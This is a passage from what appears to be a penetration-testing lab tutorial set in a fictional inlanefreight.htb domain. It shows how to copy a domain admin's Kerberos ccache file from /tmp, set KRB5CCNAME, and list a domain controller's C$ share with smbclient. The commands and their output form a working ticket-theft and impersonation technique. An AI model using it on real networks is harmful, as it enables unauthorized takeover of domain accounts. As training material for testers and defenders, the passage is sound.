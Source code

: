 ```shell-session
root@linux01:~# id julio@inlanefreight.htb

uid=647401106(julio@inlanefreight.htb) gid=647400513(domain users@inlanefreight.htb) groups=647400513(domain users@inlanefreight.htb),647400512(domain admins@inlanefreight.htb),647400572(denied rodc password replication group@inlanefreight.htb)
```

Julio is a member of the `Domain Admins` group. We can attempt to impersonate the user and gain access to the `DC01` Domain Controller host.

### **Importing the ccache File into our Current Session**

To use a ccache file, we can copy the ccache file and assign the file path to the `KRB5CCNAME` variable.

```shell-session
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
  $Recycle.Bin                      DHS        0  Wed Oct  6 17:31:14 2021
  Config.Msi                        DHS        0  Wed Oct  6 14:26:27 2021
  Documents and Settings          DHSrn        0  Wed Oct  6 20:38:04 2021
  john                                D        0  Mon Jul 18 13:19:50 2022
  julio                               D        0  Mon Jul 18 13:54:02 2022
  pagefile.sys                      AHS 738197504  Thu Oct  6 21:32:44 2022
  PerfLogs                            D        0  Fri Feb 25 16:20:48 2022
  Program Files                      DR        0  Wed Oct  6 20:50:50 2021
  Program Files (x86)                 D        0  Mon Jul 18 16:00:35 2022
  ProgramData                       DHn        0  Fri Aug 19 12:18:42 2022
  SharedFolder                        D        0  Thu Oct  6 14:46:20 2022
  System Volume Information         DHS        0  Wed Jul 13 19:01:52 2022
  tools                               D        0  Thu Sep 22 18:19:04 2022
  Users                              DR        0  Thu Oct  6 11:46:05 2022
  Windows                             D        0  Wed Oct  5 13:20:00 2022

                7706623 blocks of size 4096. 4447612 blocks available
```

{% hint style="info" %}
**Note:** klist displays the ticket information. We must consider the values "valid starting" and "expires." If the expiration date has passed, the ticket will not work. `ccache files` are temporary. They may change or expire if the user no longer uses them or during login and logout operations.
{% endhint %}
